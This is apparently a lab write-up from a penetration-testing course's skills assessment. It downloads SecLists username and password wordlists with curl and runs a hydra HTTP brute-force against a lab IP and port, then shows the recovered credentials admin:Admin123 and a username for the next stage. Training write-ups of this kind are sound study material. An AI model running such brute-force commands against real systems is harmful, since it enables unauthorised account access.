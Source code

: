 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![](../images/Pasted%20image%2020250213155858.png)

Let's begin by downloading both wordlists to our machine:

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt 
```

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

Once we've got everything, let's begin with the bruteforce process, we can use hydra for this process:

```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 42572 http-get -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:02:48
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-get://94.237.54.164:42572/
[42572][http-get] host: 94.237.54.164   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`admin`:`Admin123`
```

Let's log in now:

![](../images/Pasted%20image%2020250213160445.png)

We got the username:

```
satwossh
```